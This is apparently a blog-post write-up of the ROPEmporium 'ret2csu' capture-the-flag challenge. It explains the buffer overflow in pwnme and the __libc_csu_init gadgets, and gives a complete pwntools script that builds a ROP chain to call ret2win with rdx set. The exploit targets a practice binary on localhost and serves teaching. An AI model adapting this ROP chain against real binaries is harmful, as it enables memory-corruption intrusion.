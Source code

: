 ```yaml
---
layout: post
title:  "ret2csu ROPEmporium"
date:   2020-08-24
categories: ctf
description: Ret2csu ROP
tags: ctf-writeup
---
```


## Intro

you can download challenge binary [here](https://ropemporium.com/challenge/ret2csu.html), in this challenge
we have to deal with ret2csu technique in order to solve this challnge, you can read more about ret2csu [here](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf)
there is a talk on blackhat asia 2018 about this technique 

[![IMAGE ALT TEXT](http://img.youtube.com/vi/mPbHroMVepM/0.jpg)](http://www.youtube.com/watch?v=mPbHroMVepM "Video Title")

## Reverse Engineering

Information about the elf:

    ret2csu: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), 
    dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, 
    for GNU/Linux 3.2.0, BuildID[sha1]=a799b370a24ba0109f1175f31b3058094b5feab5, 
    not stripped

Binary Protection: 

<img src="/images/ret2csu/protection.png" />

The `main` function is just look simple, puts a string and then call other function called `pwnme`

<img src="/images/ret2csu/main.png" />

the `pwnme` function also looks simple, just puts a few strings, and it will wait for user input 

<img src="/images/ret2csu/pwnme.png" />

we have buffer overflow inside `pwnme` function

<img src="/images/ret2csu/disas_pwnme.png" />


our goals to get the flag, we have to call `ret2win` function, 
and set `%rdx` register to `0xdeadcafebabebeef`

<img src="/images/ret2csu/ret2win.png" />



## Exploitation

in order to perform ret2csu technique, we have to look at the `__libc_csu_init` function, we can use `0x040089a` 
to pop everything we need

<img src="/images/ret2csu/gadget1.png" />

and we need another gadget from `__libc_csu_init` function, `0x0400880` to set `%r15` register that we can control from
previous gadget to `%rdx` register

<img src="/images/ret2csu/movrdx.png" />

but we have some problem here, we have to deal with 

    00400889  call    qword [r12+rbx*8]

and, we have to set our `%rbp` to `1` so we can pass this test

    0040088d  add     rbx, 0x1
    00400891  cmp     rbp, rbx
    00400894  jne     0x400880

Luckily, we can controll the value of `%rbx` and `%rbp` from our first gadget, we can set 
`%rbp` to `1` so that after `add     rbx, 0x1` they will be equal. 
to avoid sigsev from `call    qword [r12+rbx*8]` we need a pointer to a function, 
and the pointer should point to a function that will not change our `%rdx` register, after the function 
being called we can just call `ret2win` to get the flag, we can use `_init` function because this 
function will not change our `%rdx` register

<img src="/images/ret2csu/init.png" />

and this function also have a pointer

<img src="/images/ret2csu/pointer_init.png">

so we can set `%r12` register to `0x600e38` and then, jump to `ret2win` function
to get the flag, now let's write some python code

{% highlight python %}
#!/usr/bin/env python2
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="info",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("./ret2csu")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    # attach(r)
    rop_csu = 0x040089A
    ret2csu = 0x0400880
    ret2win = 0x04007B1 

    init_pointer = 0x0600E38

    # ret2csu
    p = ''
    p += p.ljust(40, "a")    
    p += p64(rop_csu)
    p += p64(0) # rbx
    p += p64(1) # rbp
    p += p64(init_pointer) # r12
    p += p64(0) # r13 
    p += p64(0) # r14
    p += p64(0xdeadcafebabebeef) # r15
    p += p64(ret2csu)
    p += p64(0) * 7
    p += p64(ret2win)

    r.sendlineafter("\n>",p)

    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("127.0.0.1", 1337)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}

and run the code

<img src="/images/ret2csu/flag.png"/>

nice, we got the flag.